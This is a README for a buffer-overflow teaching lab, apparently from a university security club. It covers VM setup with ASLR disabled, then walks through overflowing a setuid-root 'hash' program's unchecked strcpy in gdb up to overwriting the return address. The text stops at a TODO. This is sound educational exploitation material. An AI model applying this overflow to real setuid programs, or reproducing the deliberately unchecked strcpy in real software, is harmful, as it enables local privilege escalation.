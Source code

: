 # UAF CSC x86_64 Buffer Overflow Lab
The purpose of this lab is to exercise exploiting the root setuid of a program via a buffer overflow.

## Setup
This lab will require a 64bit Linux virtual machine with cmake and gdb installed, and [ASLR](https://www.networkworld.com/article/3331199/what-does-aslr-do-for-linux.html) disabled. This can be done by adding the file `(/etc/sysctl.d/01-disable-aslr.conf)` containing the following to `sysctl`:
```txt
kernel.randomize_va_space = 0
```

No particular distribution is required, though this has only been tested on Ubuntu and Arch with Intel CPUs.

Once the VMs are setup make 2 accounts. 

### Account 1
This first account will be our target "Administrator" account with a long secure password (though do not one that you use), 
and sudo / root access.

If youd like to use this as a ctf-style lab you may also include a flag that will appear on the desktop when the user logs into the GUI, 
but for our purposes this will just serve the purpose of demonstrating that you have access to any account as root, 
and can even log into said accounts.

### Account 2
This second account will be a "Guest" account with no passwords, and no sudo / root access. 
This account shall have the main vulnerable [hash](main.c) binary installed with its setuid as root. 
It is highly recommended to also provide the inline shellcode string found in [shellcode.h](shellcode.h) in a hidden file.

## Writeup (Spoilers ahead!)

### Step 0: Information gathering

When looking for information that can be used to our advantage one if the first things to do will be to check out the hash program.
Running it without any arguments produces the following:
```txt
Usage: ./hash <string>
```
Ok, so it expects a string. Providing a text string `foo` changes the output to:
```txt
Hash: $6$/.VATz3thu0iHIDZ$9BsKgAl9DuiIQ51zXoFnVrOHU.0HbyHGuo1xcw9Szwja08fAqd8zBnGdWWrVT24D.n0Qd.LfV8BCI1aWvg8HV1
```
Neat! It hashes our string. Wonder if there's any limitations on the input?

Continuing to investigate the program if we run `ls -l hash` we learn the following:
```txt
-rwsr-xr-x 1 root root 23104 Nov  7 20:05 hash
```
Of note is the setuid bit, and the fact that it's owned by root.

If we run the `file` command on it we get the following:
```txt
hash: setuid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=349b894fbc026b7b75dbe745f9ec698ca96daa6a, for GNU/Linux 4.4.0, with debug_info, not stripped
```

A few takeaways from this is that the program is a setuid 64-bit executable, that is **not stripped**.  
This means that when we pop it in a debugger with `gdb hash` we can view the programs source code!

### Step 1: Running (exploiting) with a debugger
In gdb we can view the source code with the `list` command which returns the following:
```c
(gdb) list
1	#include <stdio.h>
2	#include "hash.h"
3	
4	int main(int argc, char** argv) {
5	
6		if (argc != 2) {
7			printf("Usage: ./hash <string>\n");
8			return 1;
9		}
10	
(gdb)
11		char input[512];
12		strcpy(input, argv[1]);
13	
14		char* hash = crypt(input, makesalt('6'));
15		printf("Hash: %s\n", hash);
16	
17		return 0;
18	}
```
After the check to see if a string is provided what immediately jumps out is the size allotted for our input; 
It only allocates 512 bytes for our input, but never checks the length. 
If we *hypothetically* provided a string longer than 512 bytes we could possibly make the program execute arbitrary code!

### Step 2: Crafting an exploit

Luckily for us we dont have to actaully write a string that is 500+bytes long; we can get the terminal to do it for us.
If we execute provide `$(printf "\x41%.0s" {1..540})` as our string it'll translate to 540 "A"s (hex 41) - which results in the following:
```txt
(gdb) run $(printf "\x41%.0s" {1..540})
Starting program: hash $(printf "\x41%.0s" {1..540})
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Hash: (null)

Program received signal SIGSEGV, Segmentation fault.
0x00007f0041414141 in ?? ()
```
For our case ignore the threading information. Whats notable here is the address it segfaulted on - `0x00007f0041414141` looks like it was partially overwritten with our 41s.

This is our return address. 
If we increase the number of 41s we provide to 542 we could overwrite the entire thing, but it would be best if we could pickout an address on the stack to jump to.

We can take a look at our stack memory by entering the following:
```txt
(gdb) x /-140fx $rsp
0x7fff35ef0a40:	0x35ef0d78	0x00007fff	0x00000000	0x00000002
0x7fff35ef0a50:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0a60:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0a70:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0a80:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0a90:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0aa0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0ab0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0ac0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0ad0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0ae0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0af0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0b00:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0b10:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0b20:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0b30:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0b40:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0b50:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0b60:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0b70:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0b80:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0b90:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0ba0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0bb0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0bc0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0bd0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0be0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0bf0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0c00:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0c10:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0c20:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0c30:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0c40:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fff35ef0c50:	0x41414141	0x41414141	0x00000000	0x00000000
0x7fff35ef0c60:	0x41414141	0x41414141	0x41414141	0x00007f00
```

Look at all those 41s. Lets pick out an address towards the top - memory shifts around slightly, so the larger the buffer the better.
Well use `0x7fff35ef0a60` for this example.

Going back to our string we have to input our address in backwards as intel is [little endian]().
So the resulting code should fill the stack with 41s and then point back into it:
```txt
(gdb) run $(printf "\x41%.0s" {1..536}; printf "\x60\x0a\xef\x35\xff\x7f")
```

// TODO